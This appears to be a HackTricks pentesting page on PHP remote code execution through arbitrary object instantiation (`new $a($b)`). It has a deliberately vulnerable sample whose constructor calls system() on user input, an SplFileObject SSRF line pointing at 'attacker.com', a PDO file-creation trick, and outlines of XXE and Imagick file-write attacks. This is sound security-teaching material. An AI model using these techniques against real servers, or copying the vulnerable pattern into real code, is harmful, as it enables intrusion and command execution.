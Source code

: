 # PHP - RCE abusing object creation: new $\_GET\["a"]\($\_GET\["b"])

<details>

<summary><strong><a href="https://www.twitch.tv/hacktricks_live/schedule">🎙️ HackTricks LIVE Twitch</a> Wednesdays 5.30pm (UTC) 🎙️ - <a href="https://www.youtube.com/@hacktricks_LIVE">🎥 Youtube 🎥</a></strong></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

## Introduction

In the situation where you can create a new arbitrary object like `new $_GET["a"]($_GET["a"])`you might be able to obtain RCE, and [**this writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) exposes different ways to get RCE.

## RCE via Custom Classes or Autoloading

In the construction `new $a($b)`, the **variable `$a` stands for the class name** that the object will be created for, and the variable **`$b` stands for the first argument** that will be passed to the object’s constructor.

If `$a` and `$b` come from GET/POST, they can be **strings or string arrays**. If they come from **JSON** or elsewhere, they **might have other types**, such as object or boolean.

Let’s consider the following example:

```php
class App {
    function __construct ($cmd) {
        system($cmd);
    }
}

# Additionally, in PHP < 8.0 a constructor might be defined using the name of the class
class App2 {
    function App2 ($cmd) {
        system($cmd);
    }
}

# Vulnerable code
$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```

In this code, you can set  `$a`  to  `App`  or  `App2`  and  `$b`  to  `uname -a`. After this, the command  `uname -a`  will be executed.

When there are no such exploitable classes in your application, or you have the class needed in a separate file that isn’t included by the vulnerable code, you may take a look at autoloading functions.

**Autoloading functions** are set by registering callbacks via `spl_autoload_register` or by defining `__autoload`. They are called when an instance of an unknown class is trying to be created.

```php
# An example of an autoloading function
spl_autoload_register(function ($class_name) {
        include './../classes/' . $class_name . '.php';
});

# An example of an autoloading function, works only in PHP < 8.0
function __autoload($class_name) {
        include $class_name . '.php';
};

# Calling spl_autoload_register with no arguments enables the default autoloading function, which includes lowercase($classname) + .php/.inc from include_path
spl_autoload_register();
```

Depending on the PHP version, and the code in the autoloading functions, some ways to get a Remote Code Execution via autoloading might exist.

## RCE via Built-In Classes

When you don’t have custom classes and autoloading, you can rely on **built-in PHP classes only**.

There are from 100 to 200 built-in PHP classes. The number of them depends on the PHP version and the extensions installed. All of built-in classes can be listed via the `get_declared_classes` function, together with the custom classes:

```php
var_dump(get_declared_classes());
```

Classes with useful constructors can be found via [the reflection API](https://www.php.net/manual/en/book.reflection.php).

Displaying constructors and their parameters using the reflation API: [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF)\


![](https://www.baidu.com/favicon.ico) [comment]: <> (![]&#40;https://swarm.ptsecurity.com/wp-content/uploads/2022/07/2.png)

If you control **multiple constructor parameters and can call arbitrary methods** afterwards, there are many ways to get a Remote Code Execution. But if you can pass **only one parameter and don’t have any calls** to the created object, there is **almost nothing**.

I know of only three ways to get something from `new $a($b)`.

### **SSRF + Phar deserialization**

The `SplFileObject` class implements a constructor that allows connection to any local or remote URL:

```
new SplFileObject('http://attacker.com/');
```

This allows SSRF. Additionally, SSRFs in PHP < 8.0 could be turned into deserializations via techniques with the Phar protocol.

### **Exploiting PDOs**

The PDO class has another interesting constructor:

```php
new PDO("sqlite:/tmp/test.txt")
```

The `PDO` constructor accepts DSN strings, allowing us to **connect to any local or remote database** using **installed database extensions**. For example, the SQLite extension can create empty files.

### **SoapClient/SimpleXMLElement XXE**

In PHP ≤ 5.3.22 and ≤ 5.4.12, the constructor of SoapClient was **vulnerable to XXE**. The constructor of SimpleXMLElement was vulnerable to XXE as well, but it required libxml2 < 2.9.

## RCE via Imagick Extension

Checking the **dependencies** of the **project** you are trying to exploit you could find **new classes** that could be **abused to execute commands** creating a new object. In this case, **Imagick** was found to be useful for that purpose.

### VID parser

The VID parser allows to write arbitrary content in an arbitrary path inside the filesystem, which would allow an attacker to write a PHPshell in an accessible folder from the web page and get RCE.

![](<../../../.gitbook/assets/image (157) (3).png>)

#### VID Parser + FIle Upload

When a file is uploaded to PHP it's temporary stored in `/tmp/phpXXXXXX` . The VID parser of Imagick with the **msl** protocol allows to **specify wildcards in the file paths** (so the temporary uploaded file can be easily accessed) and **copy it to any arbitrary location**.\
This is another way to get arbitrary file writing inside the filesystem:

![](<../../../.gitbook/assets/image (159).png>)

### PHP Crash + Brute Force

The [**original writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) explained another way to get RCE by **uploading files with specific content** and making the **server crash before it deletes** that file and then **bruteforcing the name** of the temporary file until **Imagick executes arbitrary PHP code**.

However, apparently the **crash trick** discovered only **worked in an old version of ImageMagick**.

## References

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

<details>

<summary><strong><a href="https://www.twitch.tv/hacktricks_live/schedule">🎙️ HackTricks LIVE Twitch</a> Wednesdays 5.30pm (UTC) 🎙️ - <a href="https://www.youtube.com/@hacktricks_LIVE">🎥 Youtube 🎥</a></strong></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
